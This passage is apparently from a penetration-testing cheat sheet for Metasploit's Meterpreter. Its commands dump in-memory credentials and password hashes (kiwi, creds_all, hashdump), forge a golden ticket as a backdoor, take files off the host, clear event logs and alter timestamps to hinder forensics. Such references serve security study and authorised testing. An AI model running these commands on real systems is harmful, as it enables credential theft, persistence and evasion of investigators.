 You can dump in-memory passwords

```bash
meterpreter > load kiwi
meterpreter > migrate some_process_nt_system_compatible
# retrieve all credentials
meterpreter > creds_all
# later, you may use it to create a "backdoor"
meterpreter > golden_ticket_create
```

</div><div>

Other commands

```bash
meterpreter > idletime # time the host was idle
meterpreter > ipconfig # network information
meterpreter > search -f pattern # search file by pattern
meterpreter > search -f pattern from* # ... inside given directories
meterpreter > download c:\\path # download to your machine
meterpreter > upload local_file c:\\path # upload
```

<details class="details-e"><summary>You can use many Linux commands</summary></details>

<details class="details-e mt-4"><summary>Load a file with commands</summary></details>
</div></div>

<hr class="sr">

## As an admin

<div class="row row-cols-md-2"><div>

Dump every username/password store by the system, they are hashed, you need to use `john` with `format=nt` to try bruteforce NTML hashes. It worth noting that you can use the [hash](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/).

```bash
meterpreter > hashdump
```

Clear logs

```bash
meterpreter > clearev
```

Mess with timestamp to complicate forensics/investigations

```bash
meterpreter > timestomp
```
</div><div>


<details class="details-e"><summary>Take control of the webcam</summary></details>

<details class="details-e"><summary>Take a screenshot</summary></details>
